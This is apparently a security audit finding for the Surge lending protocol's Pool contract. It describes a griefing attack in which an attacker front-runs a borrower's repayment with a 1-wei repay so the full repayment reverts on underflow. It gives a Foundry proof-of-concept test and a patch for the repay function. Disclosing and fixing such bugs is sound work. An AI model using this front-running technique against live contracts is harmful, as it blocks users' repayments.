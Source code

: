 rvi

medium

# Grieving attack by failing user repay transaction

## Summary
Grieving attack by failing the user to repay the transaction
## Vulnerability Detail
an attacker can revert legit users when they are paying back their borrowed amount by front-running their transaction and paying back a small amount of their debt 

`Pool.sol#530`

```solidity
_currentTotalDebt -= amount;
```

as you can see in line 530 of repay function there is subtraction and will revert if the amount is higher than `_currentTotalDebt`

also here is an attack scenario you can add to `Pool.t.sol`:
```solidity
function testAttack1() public {

        address attacker = address(0xEE);

        uint256 amount = 1e18 + 1;

        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount, 18); 
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.6e18 /* 0.6e18 = 60% */, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        
        loanToken.approve(address(pool), type(uint).max);
        collateralToken.approve(address(pool), type(uint).max);
        loanToken.transfer(attacker, 1);
        // Setup Pool
        pool.deposit(1e18);
        pool.addCollateral(address(this), 1e18);

        // user Borrowed 10000
        pool.borrow(10000);

        vm.startPrank(attacker);
        {
            loanToken.approve(address(pool), 1);
            // Attacker pays 1 wei of the loan
            pool.repay(address(this), 1);
        }
        vm.stopPrank();

        vm.expectRevert();
        // first transaction that front run by the attacker
        pool.repay(address(this), 10000);// REVERTS

    }
```

## Impact
failing user transaction to pay back his/her borrowed amount
## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L504-L547

## Tool used

Manual Review, forge

## Recommendation
adding a condition for calculation fixes this problem

```solidity
function repay(address borrower, uint amount) external {
        uint _loanTokenBalance = LOAN_TOKEN.balanceOf(address(this));
        (address _feeRecipient, uint _feeMantissa) = FACTORY.getFee();
        (  
            uint _currentTotalSupply,
            uint _accruedFeeShares,
            uint _currentCollateralRatioMantissa,
            uint _currentTotalDebt
        ) = getCurrentState(
            _loanTokenBalance,
            _feeMantissa,
            lastCollateralRatioMantissa,
            totalSupply,
            lastAccrueInterestTime,
            lastTotalDebt
        );

        uint _debtSharesSupply = debtSharesSupply;
+       uint totalUserDebt = getDebtOf(debtSharesBalanceOf[borrower], _debtSharesSupply, _currentTotalDebt);
        uint _shares;
-       if(amount == type(uint).max) {
+       if(amount == type(uint).max || amount >= totalUserDebt){
-           amount = getDebtOf(debtSharesBalanceOf[borrower], _debtSharesSupply, _currentTotalDebt);
+           amount = totalUserDebt;
            _shares = debtSharesBalanceOf[borrower];
        } else {
            _shares = tokenToShares(amount, _currentTotalDebt, _debtSharesSupply, false);
        }
        _currentTotalDebt -= amount;
        
        // commit current state
        debtSharesBalanceOf[borrower] -= _shares;
        debtSharesSupply = _debtSharesSupply - _shares;
        totalSupply = _currentTotalSupply;
        lastTotalDebt = _currentTotalDebt;
        lastAccrueInterestTime = block.timestamp;
        lastCollateralRatioMantissa = _currentCollateralRatioMantissa;
        emit Repay(borrower, msg.sender, amount);
        if(_accruedFeeShares > 0) {
            balanceOf[_feeRecipient] += _accruedFeeShares;
            emit Transfer(address(0), _feeRecipient, _accruedFeeShares);
        }

        // interactions
        safeTransferFrom(LOAN_TOKEN, msg.sender, address(this), amount);
    }
```
